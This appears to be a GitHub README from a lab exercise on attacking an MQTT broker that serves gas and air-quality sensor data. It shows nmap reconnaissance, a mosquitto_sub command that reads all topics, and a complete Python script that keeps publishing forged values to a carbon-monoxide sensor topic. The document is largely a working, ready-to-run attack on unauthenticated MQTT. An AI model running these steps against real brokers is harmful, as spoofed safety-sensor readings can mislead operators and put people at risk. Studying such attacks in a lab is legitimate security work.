 # Steps to Similate the Attack on Victim

## Step - 1: 
In my /etc/hosts file, I've mapped my victim's IP to the alias 'tom' for security purposes. In upcoming simulations, I'll be using 'tom' to represent this IP.

<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/Host.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 2: 
Do an **Nmap scan** on the target ip, Nmap scan (nmap -A tom) was an aggressive scan on tom, focusing only on common ports rather than all possible ones. Key findings:
  - Port 22 (SSH) is open, running OpenSSH 9.6p1 on Ubuntu.
  - SSH Host Keys: Shows both ECDSA and ED25519 keys.
  - OS Detection: The device is running a Linux OS with kernel version 4.x/5.x.
  - Network Distance: 1 hop.
**Note:** This scan did not detect port 1883 (MQTT) as it was outside the scanned port range.

<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/nmap.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 3: 
Do another **Nmap Scan**(nmap -p- tom), the -p- option was used to scan all 65,535 TCP ports on tom (IP: 172.16.17.207). Results show:
  - Port 22: Open (SSH)
  - Port 1880: Open (vsat-control)
  - Port 1883: Open (MQTT)
This confirms that port 1883 (MQTT) is open, as it was not detected in the previous scan due to the limited port range.
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/nmap-p.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 4: Monitoring Sensor Data Using MQTT
To subscribe to all topics on the MQTT broker and display real-time sensor data, use the following command:
```bash
mosquitto_sub -h tom -p 1883 -t '#' -v
```
This command subscribes to all topics (#) and outputs real-time sensor data with topic names and values, such as gas levels (H2, LPG, CO) and air quality metrics (PM2.5, CO2, TEMP).
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/mosquitto.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 5: 
Now it time to write a script connects to an MQTT broker and continuously publishes a message to a specified topic with a delay between each publish. The script takes four command-line arguments: broker address, topic, message, and delay.
```bash
import paho.mqtt.client as mqtt
import time
import sys

# Check if the correct number of arguments is provided
if len(sys.argv) != 5:
    print("Usage: script.py <broker_address> <topic> <message> <delay>")
    sys.exit(1)

# Get command-line arguments
broker_address = sys.argv[1]
topic = sys.argv[2]
message = sys.argv[3]
delay = float(sys.argv[4])  # Convert delay to float

print(f"Arguments received - Broker: {broker_address}, Topic: {topic}, Message: {message}, Delay: {delay}")

# Create an MQTT client instance
client = mqtt.Client()

# Connect to the MQTT broker
client.connect(broker_address)

# Continuously send the message to the topic
try:
    while True:
        client.publish(topic, message)
        print(f"Data '{message}' sent to topic {topic}")
        time.sleep(delay)  # Use the delay provided in seconds
except KeyboardInterrupt:
    print("Process interrupted")
finally:
    client.disconnect()
```

Step - 6:
Running the script.py file by adding the broker address, topic, message, and delay.
```bash
python3 script.py tom ZPHS01B/CO '10' 1.00
```

